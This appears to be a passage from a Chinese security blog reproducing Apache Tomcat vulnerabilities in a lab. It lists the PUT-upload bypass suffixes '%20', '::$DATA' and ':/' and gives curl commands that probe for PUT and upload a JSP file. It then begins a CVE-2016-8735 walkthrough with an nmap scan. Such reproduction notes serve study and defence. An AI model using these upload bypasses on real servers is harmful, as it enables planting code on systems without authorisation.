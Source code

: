 - Apache Tomcat 7.0.0 - 7.0.79 (windows环境)

### 绕过方式

- `1.jsp%20`
- `1.jsp::$DATA`
- `1.jsp:/`

### 复现步骤

使用 curl 查看是否支持 PUT 请求
```
curl -i -X OPTIONS http://192.168.64.129:8080/1/  // 给个不存在的目录
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140248264-582055400.png)

使用 curl 上传 `.jsp/`
```
curl -X PUT "http://192.168.64.129:8080/test.jsp/" -d '<%out.println("test");%>'
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140258988-620899226.png)

使用 Burpsuite 上传`.jsp::$DATA`
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140312690-824418649.png)
`.jsp%20`
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140326399-1500262915.png)

> 网上也有大佬写了GUI或脚本


## CVE-2016-8735

---


### 影响范围

- Apache Tomcat 9.0.0.M1 to 9.0.0.M11
- Apache Tomcat 8.5.0 to 8.5.6
- Apache Tomcat 8.0.0.RC1 to 8.0.38
- Apache Tomcat 7.0.0 to 7.0.72
- Apache Tomcat 6.0.0 to 6.0.47

### 存在问题

>大佬的文章：https://gv7.me/articles/2018/CVE-2016-8735/
>tomcat相同版本，在java 1.8.0_131下无法弹出计算机。觉得这个漏洞应该还和java版本有关。和groovy版本也有关。

### 复现步骤

扫描端口
```
nmap -p 10001,10002 -sC -sV 192.168.64.129
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140408233-727297219.png)
